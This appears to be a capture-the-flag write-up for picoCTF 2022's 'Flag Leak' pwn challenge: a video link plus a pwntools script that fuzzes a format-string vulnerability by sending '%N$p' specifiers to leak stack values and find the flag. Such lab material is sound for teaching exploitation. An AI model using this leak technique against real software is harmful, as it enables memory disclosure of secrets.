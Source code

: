 ```yaml
---
name: Flag Leak (2022)
event: Pico CTF 2022
category: Pwn
description: Writeup for Flag Leak (Pwn) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Flag Leak

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/dAsujQ_OPEk/0.jpg)](https://youtu.be/dAsujQ_OPEk?t=2634 "Pico CTF 2022: Flag Leak")

## Solution

```py
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./vuln', checksec=False)

# Let's fuzz 100 values
for i in range(100):
    try:
        # Create process (level used to reduce noise)
        p = process('./vuln', level='warn')
        # p = remote('saturn.picoctf.net', 53365, level='warn')
        # When we see the user prompt '>', format the counter
        # e.g. %2$s will attempt to print second pointer as string
        p.sendlineafter(b'>', '%{}$p'.format(i).encode())
        p.recvline()
        # Receive the response
        result = p.recvline()
        # Check for flag
        # if("flag" in str(result).lower()):
        print(str(i) + ': ' + str(result))
        # Exit the process
        p.close()
    except EOFError:
        pass
```
